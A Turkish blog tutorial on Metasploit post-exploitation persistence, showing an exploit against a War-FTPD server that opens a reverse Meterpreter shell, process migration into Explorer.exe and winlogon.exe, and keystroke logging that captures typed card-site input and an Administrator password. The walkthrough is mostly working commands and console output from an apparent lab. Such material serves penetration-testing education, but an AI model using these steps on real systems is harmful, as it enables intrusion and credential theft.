 ```yaml
---
draft: false

title:  'MSF Meterpreter Kalıcılık Sağlama'
date: '2017-06-15T13:54:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bir hedef bilgisayara başarılı bir oturum açtığınızda, mevcut yetkiler izin veriyorsa ilk düşünülmesi gereken kalıcılık sağlamaktır. Kalıcılık, hedef sisteme daha sonradan giriş için açık kapılar oluşturulması veya daha kolay giriş yöntemleri bulunmasını kapsar.' 
 
url:  /tr/msf-meterpreter-kalicilik-saglama/ 
post_views_count:
    - '0'
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Kalıcılık Sağlama



Bir hedef bilgisayara başarılı bir oturum açtığınızda, mevcut yetkiler izin veriyorsa ilk düşünülmesi gereken kalıcılık sağlamaktır. Kalıcılık, hedef sisteme daha sonradan giriş için açık kapılar oluşturulması veya daha kolay giriş yöntemleri bulunmasını kapsar.



Bazı durumlarda, hedef üzerinde yaptığınız çalışmalar sistemi kararsız hale getirebilir. Sistemin tekrar başlatılması gerektiğinde bağlantınız da kopacaktır. Bu gibi durumlar için, hedef sisteme tekrar bağlanmanın kolay bir yolunu oluşturmak faydalı olacaktır.



Kalıcılık sağlamak için sistem hakkında kullanıcı bilgileri, token bilgileri, hash bilgileri ve bağlı olduğu diğer alt ağların keşfi ileride kullanım için oldukça fayda sağlamaktadır.



Bilgi toplamanın bir yöntemi de keylogger olarak ifade edilen yöntemdir.



## Metasploit içinde Keylogger Kullanımı



Bir sisteme giriş sağlandığında iki yaklaşım sergileyebilirsiniz. Çok hızlı olmak veya çok yavaş olmak. Keylogger, yani kullanıcının tuşlarını ve yazdıklarını kaydetmek, yavaş yaklaşıma bir örnektir. Bu yaklaşımda, gerçekleştirmek istediğiniz işlemleri çok hızlı yapamazsınız ancak uzun vadede çok kullanışlı bilgiler elde edebilirsiniz.



Öncelikle, bir exploit modülü kullanarak hedef sistemde oturum çalım.


```bash
msf exploit**(**warftpd_165_user**)** **>** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Connecting to FTP server 172.16.104.145:21...
**[*********]** Connected to target FTP server.
**[*********]** Trying target Windows 2000 SP0-SP4 English...
**[*********]** Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
**[*********]** Sending stage **(**2650 bytes**)**
**[*********]** Sleeping before handling stage...
**[*********]** Uploading DLL **(**75787 bytes**)**...
**[*********]** Upload completed.
**[*********]** Meterpreter session 4 opened **(**172.16.104.130:4444 -> 172.16.104.145:1246**)**

meterpreter **>**
```



Oturum açıldıktan sonra, tuşları kayıt etmek için `Explorer.exe` prosesine geçmek başarı için daha garanti bir yoldur. Hedef sistemde `Explorer.exe` uygulaması, hangi PID numarasıyla çalışıyor öğreniyoruz ve `migrate` komutuyla geçiş yapıyoruz.


```bash
meterpreter **>** ps

Process list
**============**

    PID   Name               Path                                                   
    ---   ----               ----                                                   
    140   smss.exe           \SystemRoot\System32\smss.exe                          
    188   winlogon.exe       ??\C:\WINNT\system32\winlogon.exe                     
    216   services.exe       C:\WINNT\system32\services.exe                         
    228   lsass.exe          C:\WINNT\system32\lsass.exe                            
    380   svchost.exe        C:\WINNT\system32\svchost.exe                          
    408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                          
    444   svchost.exe        C:\WINNT\System32\svchost.exe                          
    480   regsvc.exe         C:\WINNT\system32\regsvc.exe                           
    500   MSTask.exe         C:\WINNT\system32\MSTask.exe                           
    528   VMwareService.exe  C:\Program Files\VMwareVMware Tools\VMwareService.exe 
    588   WinMgmt.exe        C:\WINNT\System32\WBEMWinMgmt.exe                     
    664   notepad.exe        C:\WINNT\System32 otepad.exe                          
    724   cmd.exe            C:\WINNT\System32\cmd.exe                              
    768   Explorer.exe       C:\WINNT\Explorer.exe                                  
    800   war-ftpd.exe       C:\Program Files\War-ftpd\war-ftpd.exe                 
    888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe    
    896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe    
    940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe           
    972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe 
    1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe 

meterpreter **>** migrate 768
**[*********]** Migrating to 768...
**[*********]** Migration completed successfully.
meterpreter **>** getpid
Current pid: 768
```



PID geçişini kontrol ettikten sonra keylogger işlemini başlatalım.


```bash
meterpreter **>** keyscan_start
Starting the keystroke sniffer...
meterpreter **>** keyscan_dump
Dumping captured keystrokes...
   tgoogle.cm my credit amex   myusernamthi     amexpasswordpassword
```



Bir miktar süre geçtikten sonra kayıt dosyasını görmek için `keyscan_dump` komutunu kullanabilirsiniz. Yakalanan tuş vuruşlarını incelediğinizde, CTRL veya ALT gibi tuşların log dosyasına nasıl kayıt edildiğini de öğrenebilirsiniz.



Ayrıca, oturum açma bilgilerini de yakalamak isterseniz, `Explorer.exe` yerine `migrate` komutuyla, `winlogon` prosesine geçebilirsiniz.


```bash
meterpreter **>** ps

Process list
**=================**

PID Name         Path
--- ----         ----
401 winlogon.exe C:\WINNT\system32\winlogon.exe

meterpreter **>** migrate 401

**[*********]** Migrating to 401...
**[*********]** Migration completed successfully.

meterpreter **>** keyscan_start
Starting the keystroke sniffer...
```



Kayıt esnasında bir Administrator kullanıcı oturumu açılmıştır. Sonucuna bakalım.


```bash
meterpreter **>** keyscan_dump
Dumping captured keystrokes...
Administrator ohnoes1vebeenh4x0red!
```



Görüldüğü gibi, oturum açan kullanıcı “Administrator” ve parolası “ohnoes1vebeenh4x0red!” olarak tespit edilmiştir.
